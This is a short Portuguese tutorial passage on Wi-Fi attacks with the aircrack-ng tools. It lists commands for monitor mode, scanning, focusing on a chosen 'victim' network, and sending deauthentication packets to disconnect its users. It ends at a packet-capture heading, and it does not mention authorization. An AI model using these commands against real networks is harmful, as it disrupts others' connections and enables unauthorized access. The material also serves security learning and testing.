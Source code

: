 airmon-ng start wlan0


Agor temos que monitorar as redes:

airodump-ng wlan0mon

após escolher a vitima, vamos restringir o monitoramento ao canal que ela esta usando


airodump-ng wlan0mon -c <<Canal>>

Agora precisamos desconectar as pessoas na rede delas, para descobrirmos o nome da rede wifi delas

aireplay-ng -0 <<NUMERO DE PACOTES A SEREM ENVIADOS>> -a <<BSSID>> wlan0mon
airodump-ng wlan0mon -c <<Canal>> --bssid <BSSID da rede>>


========================================================================================================================================================================================



### Linha de comando:

Mostrando dispositivos de rede:

 `ifconfig`
Ativando interface de monitoramento:

 `airmon-ng start wlan0`
Monitorando o ar:

 airodump-ng wlan0mon
Filtrando monitoramento

 airodump-ng wlan0mon -c <canal> --bssid <bssid da rede>
Ataque de desautenticação

 aireplay-ng -0 10 -a <bssid> wlan0mon



========================================================================================================================================================================================

			CAPTURANDO PACOTES

Com a nossa interface em modo monitor, vamos ver que dados podemos coletar usando o Airodump-ng do pacote Aircrack-ng.
O Airodump-ng é usado para capturar e salvar o pacotes wireless

~~~~~~~~~~~~Iniciando o dump de um pacote com o Airodump-ng~~~~~~~~

